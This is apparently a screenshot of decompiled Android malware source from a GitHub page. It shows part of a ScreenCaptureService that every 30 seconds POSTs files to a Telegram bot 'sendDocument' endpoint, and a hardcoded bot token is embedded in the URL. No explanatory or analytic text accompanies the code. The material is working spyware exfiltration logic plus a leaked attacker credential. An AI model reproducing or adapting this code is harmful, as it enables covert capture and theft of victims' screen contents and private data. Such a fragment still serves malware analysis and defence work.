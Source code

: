 ```
                    String str3 = "https://api.telegram.org/bot8369776437:AAFYoPjexy1-_wdpuCHAjIS4ZW9eJ6B-T0Q/sendDocument";
                    if (c1.l.y0("https://api.telegram.org/bot8369776437:AAFYoPjexy1-_wdpuCHAjIS4ZW9eJ6B-T0Q/sendDocument", "ws:", true)) {
                        str3 = "http:".concat("ps://api.telegram.org/bot8369776437:AAFYoPjexy1-_wdpuCHAjIS4ZW9eJ6B-T0Q/sendDocument");
                    } else if (c1.l.y0("https://api.telegram.org/bot8369776437:AAFYoPjexy1-_wdpuCHAjIS4ZW9eJ6B-T0Q/sendDocument", "wss:", true)) {
                        str3 = "https:".concat("s://api.telegram.org/bot8369776437:AAFYoPjexy1-_wdpuCHAjIS4ZW9eJ6B-T0Q/sendDocument");
                    }
                    f.f(str3, "<this>");
                    f1.l lVar = new f1.l();
                    lVar.d(null, str3);
                    fVar.f151c = lVar.a();
                    fVar.j("POST", qVar);
                    t a3 = fVar.a();
                    j1.j jVar2 = new j1.j(rVar, a3);
                    e eVar = new e(3);
                    if (!jVar2.g.compareAndSet(false, true)) {
                        throw new IllegalStateException("Already Executed".toString());
                    }
                    n nVar = n.f3271a;
                    jVar2.f2963h = n.f3271a.g();
                    jVar2.f2962e.getClass();
                    s sVar = rVar.f2360a;
                    g gVar3 = new g(jVar2, eVar);
                    sVar.getClass();
                    synchronized (sVar) {
                        ((ArrayDeque) sVar.b).add(gVar3);
                        String str4 = ((m) a3.b).f2344d;
                        Iterator it = ((ArrayDeque) sVar.f1172c).iterator();
                        while (true) {
                            if (it.hasNext()) {
                                gVar = (g) it.next();
                                if (f.a(((m) gVar.f2956c.b.b).f2344d, str4)) {
                                }
                            } else {
                                Iterator it2 = ((ArrayDeque) sVar.b).iterator();
                                while (it2.hasNext()) {
                                    gVar = (g) it2.next();
                                    if (f.a(((m) gVar.f2956c.b.b).f2344d, str4)) {
                                    }
                                }
                            }
                        }
                        gVar2 = gVar;
                        if (gVar2 != null) {
                            gVar3.b = gVar2.b;
                        }
                    }
                    sVar.h();
                }
                ((ScreenCaptureService) this.b).f1882d.postDelayed(this, 30000L);
                return;
```
